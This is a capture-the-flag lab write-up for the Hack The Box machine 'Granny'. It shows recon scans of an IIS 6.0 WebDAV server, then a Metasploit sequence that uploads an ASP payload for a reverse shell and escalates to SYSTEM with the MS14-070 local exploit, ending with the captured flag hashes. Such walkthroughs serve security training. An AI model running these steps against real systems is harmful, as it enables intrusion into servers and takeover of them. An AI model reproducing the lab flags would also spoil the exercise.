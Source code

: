 ### IP
`10.10.10.15`

# Recon

### nmap
`nmap -sC -sV 10.10.10.15 -o Grannynmap`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-19 11:27 EST
Nmap scan report for 10.10.10.15
Host is up (0.11s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-ntlm-info: 
|   Target_Name: GRANNY
|   NetBIOS_Domain_Name: GRANNY
|   NetBIOS_Computer_Name: GRANNY
|   DNS_Domain_Name: granny
|   DNS_Computer_Name: granny
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Date: Thu, 19 Nov 2020 16:31:18 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.73 seconds
```
* Looks like theres a webserver on port 80
* We can see that WebDAV is running

### Gobuster
`gobuster dir -u http://10.10.10.15/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -o gobusterScan.txt`
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.15/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/19 11:32:36 Starting gobuster
===============================================================
/_private (Status: 301)
/_vti_bin/shtml.dll (Status: 200)
/_vti_bin (Status: 301)
/_vti_log (Status: 301)
/_vti_bin/_vti_aut/author.dll (Status: 200)
/_vti_bin/_vti_adm/admin.dll (Status: 200)
/aspnet_client (Status: 301)
/images (Status: 301)
/Images (Status: 301)
===============================================================
2020/11/19 11:32:49 Finished
===============================================================
```
* looks like any capialization of a directory works, which confirms that this is a windows machine
* `/_vti_bin` looks interesting
	* a quick google search reveals that the machine is probably running a [microsoft sharepoint server](https://social.technet.microsoft.com/Forums/sharepoint/en-US/9d496bd1-170f-4b87-b4b3-5f9ec760921f/sharepoint-service-30-vtibin-folder?forum=sharepointadminlegacy)
	* there's also some indication online that the [directory should not be accessible](https://hackmag.com/security/sharepoint-serving-the-hacker/), which means we have a vulnerability we can exploit  

### nikto
`nikto -h 10.10.10.15`
```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.15
+ Target Hostname:    10.10.10.15
+ Target Port:        80
+ Start Time:         2020-11-19 11:30:52 (GMT-5)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/6.0
+ Retrieved microsoftofficewebserver header: 5.0_Pub
+ Retrieved x-powered-by header: ASP.NET
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'microsoftofficewebserver' found, with contents: 5.0_Pub
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-aspnet-version header: 1.1.4322
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-397: HTTP method 'PUT' allows clients to save files on the web server.
+ OSVDB-5646: HTTP method 'DELETE' allows clients to delete files on the web server.
+ Retrieved dasl header: <DAV:sql>
+ Retrieved dav header: 1, 2
+ Retrieved ms-author-via header: MS-FP/4.0,DAV
+ Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
+ WebDAV enabled (LOCK UNLOCK SEARCH PROPFIND MKCOL COPY PROPPATCH listed as allowed)
+ OSVDB-13431: PROPFIND HTTP verb may show the server's internal IP address: http://granny/_vti_bin/_vti_aut/author.dll
+ OSVDB-396: /_vti_bin/shtml.exe: Attackers may be able to crash FrontPage by requesting a DOS device, like shtml.exe/aux.htm -- a DoS was not attempted.
+ OSVDB-3233: /postinfo.html: Microsoft FrontPage default file found.
+ OSVDB-3233: /_private/: FrontPage directory found.
+ OSVDB-3233: /_vti_bin/: FrontPage directory found.
+ OSVDB-3233: /_vti_inf.html: FrontPage/SharePoint is installed and reveals its version number (check HTML source for more information).
+ OSVDB-3300: /_vti_bin/: shtml.exe/shtml.dll is available remotely. Some versions of the Front Page ISAPI filter are vulnerable to a DOS (not attempted).
+ OSVDB-3500: /_vti_bin/fpcount.exe: Frontpage counter CGI has been found. FP Server version 97 allows remote users to execute arbitrary system commands, though a vulnerability in this version could not be confirmed. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-1376. http://www.securityfocus.com/bid/2252.
+ OSVDB-67: /_vti_bin/shtml.dll/_vti_rpc: The anonymous FrontPage user is revealed through a crafted POST.
+ /_vti_bin/_vti_adm/admin.dll: FrontPage/SharePoint file found.
+ 8018 requests: 0 error(s) and 32 item(s) reported on remote host
+ End Time:           2020-11-19 11:40:35 (GMT-5) (583 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
* We can look at `/_vti_inf.html` for some extra info
	* Looking at the html source, it says `<!-- _vti_inf.html version 0.100>` and `FPVersion="5.0.2.6790"`
* `_vti_bin/fpcount.exe` apparently might let us execute arbitrary commands

# Exploitation

### webdav
* On `msfconsole`, we can run the following:
1. `search webdav`
2. `use exploit/windows/iis/iis_webdav_upload_asp` in order to get remote code execution
3. `set RHOST 10.10.10.15`
4. `set LHOST tun0` in order to have the machine connect back to yours
5. `run`
6. `ps` to find processes running with `NT AUTHORITY`
7. `migrate 3416` (pick the process id that your machine is running as described above)
8. `bg` to put the session into the background (keep note of the number)
9. `use post/multi/recon/local_exploit_suggester` in order to find scripts for privesc
10. `set SESSION 1` (use whatever session number your session was backgrounded to)
11. `set SHOWDESCRIPTION true` to see more details for each suggestion
12. `run`
13. `use exploit/windows/local/ms14_070_tcpip_ioctl` because we want to elevate the system
14. `set SESSION 1`
15. `set LHOST tun0`
16. `run`
```
* Now, we should have admin access. If not, go through the process and migrate steps again
* We can cd to `C:\Documents and Settings\Lakis\Desktop`
	* Using the `cat` command on the meterpreter or the `more` command on the shell, we get the user flag: `700c5dc163014e22b3e408f8703f67d1`

* We can cd to `C:\Documents and Settings\Administrator\Desktop>` to get the root flag: `aa4beed1c0584445ab463a6747bd06e9`